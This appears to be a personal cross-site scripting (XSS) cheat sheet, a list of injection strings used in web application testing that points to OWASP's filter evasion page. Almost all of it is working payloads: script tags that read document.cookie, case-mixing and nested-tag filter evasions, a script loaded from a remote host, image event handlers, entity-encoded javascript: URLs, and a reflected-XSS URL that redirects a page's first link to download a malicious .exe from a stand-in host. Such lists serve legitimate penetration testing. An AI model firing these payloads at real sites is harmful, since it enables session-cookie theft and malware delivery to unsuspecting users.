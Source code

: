 * OWASP XSS Links
https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet

* Basic Strings
<script>alert(123)</script>
“><script>alert(document.cookie)</script>
"><script >alert(document.cookie)</script >
"><ScRiPt>alert(document.cookie)</ScRiPt>
"%3cscript%3ealert(document.cookie)%3c/script%3e
<scr<script>ipt>alert(document.cookie)</script>



* Testing Strings

** Reflected
** Filter Evasion 
Inject String, view source, look for <XSS verses &lt;XSS to see if it is vulnerable
'';!--"<XSS>=&{()}

<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>

*** Image XSS Strings
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG SRC=javascript:alert("XSS")>
<IMG SRC=`javascript:alert("XSS by, 'NCC'")`>
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"> << MALFORMED

*** SCR Strings
<IMG SRC=# onmouseover="alert('xxs')">
<IMG SRC= onmouseover="alert('xxs')">
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>

** Encoded Strings
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;
&#39;&#88;&#83;&#83;&#39;&#41;>
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&
#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>

* Making it count
http://example.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName("a"); 
AllLinks[0].href = "http://badexample.com/malicious.exe"; }</script> 
Downloads exe from badexample





<a onmouseover="alert(document.cookie)">xxs link</a>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">

